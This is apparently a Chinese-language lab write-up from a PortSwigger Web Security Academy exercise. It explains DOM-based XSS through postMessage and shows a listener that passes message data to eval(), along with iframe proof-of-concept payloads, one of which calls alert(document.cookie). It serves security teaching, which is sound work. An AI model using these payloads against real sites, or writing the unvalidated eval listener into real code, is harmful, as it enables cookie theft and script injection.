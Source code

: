 如何使用Web消息作为来源进行攻击

考虑以下代码：

```javascript
<script>
window.addEventListener('message', function(e){
    eval(e.data);
    });
</script>
```

这很容易受到攻击，因为攻击者可以通过构造以下代码来注入JavaScript有效负载iframe：

```javascript
<iframe src="//vulnerable-website"
 onload="this.contentWindow.postMessage('alert(1)','*')">
```

由于事件侦听器无法验证消息的来源，并且该postMessage()方法指定targetOrigin "*"，因此事件侦听器接受有效负载并将其传递到接收器（在本例中为eval()函数）中。



实验：





![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/基于DOM的漏洞/images/D361339E4C9A4F7684FBE90E21F2AD47clipboard.png)

发现网站首页存在一个web消息监听器，并且会将监听到的内容发送到页面。这很可能造成xss漏洞



构造poc:

```javascript
<iframe src="https://your-lab-id.web-security-academy.net/" 
onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','*')">
```

发送的消息里含有xss代码，造成xss

